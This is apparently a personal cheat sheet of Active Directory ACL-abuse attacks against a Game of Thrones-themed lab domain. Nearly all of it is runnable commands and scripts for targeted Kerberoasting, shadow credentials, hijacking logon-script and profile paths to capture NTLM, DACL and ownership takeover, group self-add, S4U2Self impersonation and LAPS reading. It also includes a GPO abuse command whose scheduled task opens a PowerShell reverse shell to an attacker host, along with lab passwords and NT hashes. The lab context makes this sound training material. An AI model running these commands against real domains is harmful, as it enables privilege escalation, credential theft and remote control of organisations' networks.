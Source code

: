 # ACL

```sh
bloodhound-python -u hodor@north.sevenkingdoms.local -p hodor -c all --zip --dns-tcp -ns 10.10.10.11 -d sevenkingdoms.local
bloodhound-python -u hodor@north.sevenkingdoms.local -p hodor -c all --zip --dns-tcp -ns 10.10.10.11 -d north.sevenkingdoms.local
bloodhound-python -u hodor@north.sevenkingdoms.local -p hodor -c all --zip --dns-tcp -ns 10.10.10.11 -d essos.local
```

- when using kerberos authentication always remember to use FQDN
    ```sh
    # fails
    KRB5CCNAME=./tyron.lannister.ccache ldeep ldap -u tyron.lannister -k -d sevenkingdoms.local -s ldap://10.10.10.10 search '(sAMAccountName=tyron.lannister)'

    # success
    KRB5CCNAME=./tyron.lannister.ccache ldeep ldap -u tyron.lannister -k -d sevenkingdoms.local -s ldap://kingslanding.sevenkingdoms.local search '(sAMAccountName=tyron.lannister)'
    ```

- certipy shadow credentials does not work with kerberos auth (?)

## GenericWrite on User

- Target Kerberoasting
    ```sh
    git clone https://github.com/ShutdownRepo/targetedKerberoast
    targetedKerberoast.py -v -d sevenkingdoms.local -u jaime.lannister -p jaime --request-user joffrey.baratheon --dc-ip 10.10.10.10
    ```

- Shadow Credentials
    ```sh
    certipy shadow auto -u jaime.lannister@sevenkingdoms.local -p jaime -account 'joffrey.baratheon' -dc-ip 10.10.10.10
    ```

- Logon Script
    ```sh
    ldeep ldap -u jaime.lannister -p 'jaime' -d sevenkingdoms.local -s ldap://10.10.10.10 search '(sAMAccountName=joffrey.baratheon)' scriptpath
    ```

    - python script to modify `scriptPath`
        ```py
        import ldap3
        dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
        user = "sevenkingdoms.local\\jaime.lannister"
        password = "jaime"
        server = ldap3.Server('kingslanding.sevenkingdoms.local')
        ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
        ldap_con.bind()
        ldap_con.modify(dn,{'scriptPath' : [(ldap3.MODIFY_REPLACE, '\\\\10.10.10.200\share\exploit.ps1')]})
        print(ldap_con.result)
        ldap_con.unbind()
        ```

    - python script to modify `profilePath`, then start `responder` to capture `NetNTLM` authentication when the user logs in
        ```py
        import ldap3
        dn = "CN=joffrey.baratheon,OU=Crownlands,DC=sevenkingdoms,DC=local"
        user = "sevenkingdoms.local\\jaime.lannister"
        password = "jaime"
        server = ldap3.Server('kingslanding.sevenkingdoms.local')
        ldap_con = ldap3.Connection(server = server, user = user, password = password, authentication = ldap3.NTLM)
        ldap_con.bind()
        ldap_con.modify(dn,{'profilePath' : [(ldap3.MODIFY_REPLACE, '\\\\10.10.10.200\share')]})
        print(ldap_con.result)
        ldap_con.unbind()
        ```

## WriteDacl

<https://github.com/ThePorgs/impacket>

```sh
dacledit-exegol.py -action 'read' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion' -dc-ip 10.10.10.10
dacledit-exegol.py -action 'write' -rights 'FullControl' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion' -dc-ip 10.10.10.10
dacledit-exegol.py -action 'restore' -principal joffrey.baratheon -target 'tyron.lannister' 'sevenkingdoms.local'/'joffrey.baratheon':'1killerlion' -dc-ip 10.10.10.10 -file ./dacledit-20240128-210948.bak
```

## AddSelf

```sh
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.10.10.10 search '(sAMAccountName=tyron.lannister)' distinguishedName | jq '.[].dn'
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.10.10.10 search '(sAMAccountName=Small Council)' distinguishedName | jq '.[].dn'
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.10.10.10 add_to_group  "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=Small Council,OU=Crownlands,DC=sevenkingdoms,DC=local"'
```

## AddMember

```sh
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.10.10.10 search '(sAMAccountName=tyron.lannister)' distinguishedName | jq '.[].dn'
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.10.10.10 search '(sAMAccountName=dragonstone)' distinguishedName | jq '.[].dn'
ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.10.10.10 add_to_group  "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=DragonStone,OU=Crownlands,DC=sevenkingdoms,DC=local"
```

## WriteOwner

1. Change ownership of a group
    ```sh
    owneredit-exegol.py -action read -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
    owneredit-exegol.py -action 'write' -new-owner 'tyron.lannister' -target 'kingsguard' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' sevenkingdoms.local/tyron.lannister
    ```

2. As an owner of a group, we have `WriteDacl` permissions on the group
    ```sh
    dacledit-exegol.py -action 'write' -rights 'FullControl' -principal 'tyron.lannister' -hashes ':b3b3717f7d51b37fb325f7e7d048e998' -target 'kingsguard' 'sevenkingdoms.local'/'tyron.lannister' -dc-ip 10.10.10.10
    ```

3. do `AddSelf`
    ```sh
    ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.10.10.10 search '(sAMAccountName=tyron.lannister)' distinguishedName | jq '.[].dn'
    ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.10.10.10 search '(sAMAccountName=kingsguard)' distinguishedName | jq '.[].dn'
    ldeep ldap -u tyron.lannister -H ':b3b3717f7d51b37fb325f7e7d048e998' -d sevenkingdoms.local -s ldap://10.10.10.10 add_to_group  "CN=tyron.lannister,OU=Westerlands,DC=sevenkingdoms,DC=local" "CN=KingsGuard,OU=Crownlands,DC=sevenkingdoms,DC=local"
    ```

## GenericAll on User

Same as `GenericWrite`

## GenericAll on Computer

1. Shadow Credentials to get the computer TGT and NT hash
    ```sh
    certipy shadow auto -u stannis.baratheon@sevenkingdoms.local -hashes ':d75b9fdf23c0d9a6549cff9ed6e489cd' -account 'kingslanding$' -dc-ip 10.10.10.10
    ```

2. S4U2Self to obtain service ticket (administrator -> kingslanding$)
    ```sh
    KRB5CCNAME=./kingslanding.ccache getST-exegol.py -self -altservice 'cifs/kingslanding.sevenkingdoms.local' -impersonate administrator -k -no-pass -dc-ip 10.10.10.10 sevenkingdoms.local/'kingslanding$'
    ```

## GPO Abuse

- `WriteDacl`, `WriteOwner`, `GenericWrite` on GPO
- <https://github.com/Hackndo/pyGPOAbuse>

```sh
# gpo id obtained from bloodhound:
# Node Info -> Node Properties -> GPO File Path (\\NORTH.SEVENKINGDOMS.LOCAL\SYSVOL\NORTH.SEVENKINGDOMS.LOCAL\POLICIES\{53136A49-0492-4A3E-A45E-5D762E4CF8FF})
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' -gpo-id "53136A49-0492-4A3E-A45E-5D762E4CF8FF"
python3 pygpoabuse.py north.sevenkingdoms.local/samwell.tarly:'Heartsbane' \
    -gpo-id "53136A49-0492-4A3E-A45E-5D762E4CF8FF" \
    -f \
    -powershell \
    -command "\$c = New-Object System.Net.Sockets.TCPClient('10.10.10.200',443);\$s = \$c.GetStream();[byte[]]\$b = 0..65535|%{0};while((\$i = \$s.Read(\$b, 0, \$b.Length)) -ne 0){    \$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$b,0, \$i);    \$sb = (iex \$d 2>&1 | Out-String );    \$sb = ([text.encoding]::ASCII).GetBytes(\$sb + 'ps> ');    \$s.Write(\$sb,0,\$sb.Length);    \$s.Flush()};\$c.Close()" \
    -taskname "MyTask" -description "don't worry"
```

## Read LAPS Password

```sh
# Although bloodhound points to 10.10.10.23 computer, the target argument is still the DC ip
nxc ldap 10.10.10.12 -u jorah.mormont -p 'H0nnor!' --module laps
```

